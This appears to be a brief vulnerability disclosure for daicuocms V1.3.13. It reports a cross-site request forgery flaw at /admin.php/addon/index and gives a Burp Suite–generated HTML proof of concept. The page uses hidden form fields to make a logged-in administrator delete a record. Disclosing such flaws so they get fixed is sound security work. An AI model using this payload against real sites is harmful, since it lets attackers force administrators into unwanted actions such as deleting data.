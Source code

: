 
target:https://github.com/daicuo/cms
version: V1.3.13

daicuocms V1.3.13 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  /admin.php/addon/index

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.31.101/admin.php/addon/index">
      <input type="hidden" name="module" value="friend" />
      <input type="hidden" name="controll" value="admin" />
      <input type="hidden" name="action" value="delete" />
      <input type="hidden" name="id" value="12" />
      <input type="hidden" name="&#95;" value="1746532417075" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

